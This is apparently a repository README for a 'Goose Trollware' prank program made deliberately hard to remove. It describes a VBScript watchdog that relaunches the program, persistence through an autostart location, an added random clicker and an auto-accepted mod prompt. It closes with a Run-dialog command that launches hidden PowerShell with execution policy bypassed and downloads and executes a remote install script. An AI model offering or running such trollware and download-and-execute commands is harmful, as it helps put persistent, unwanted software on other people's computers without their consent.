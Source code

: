 # Goose Trollware - Brutal Version

This is the same as my other goose trollware repository, except it's harder to remove, I added a few memes and text files of my own, and added a random clicker mod.

See here for the original program https://desktop-goose.en.uptodown.com/windows


The original program is just a goose that walks around your screen, sometimes leaving footmarks, opening text files or opening memes. You can typically close it with task manager or by holding escape. 

In my version, the gooes is launched using a VBScript to start it again if it is stopped. On top of that, it writes this script to an autostart location so that the duck starts up when you boot your computer. 

---

`i.ps1`: The install script

`run.vbs`: The vbs startup script. This one automatically presses Yes to the question about mods.

---

To install on a computer, run `powershell -W H -Ex B -c "iex (iwr 'https://github.com/Reginald-Gillespie/G2/raw/main/i.ps1').Content"` in the Run Dialogue.
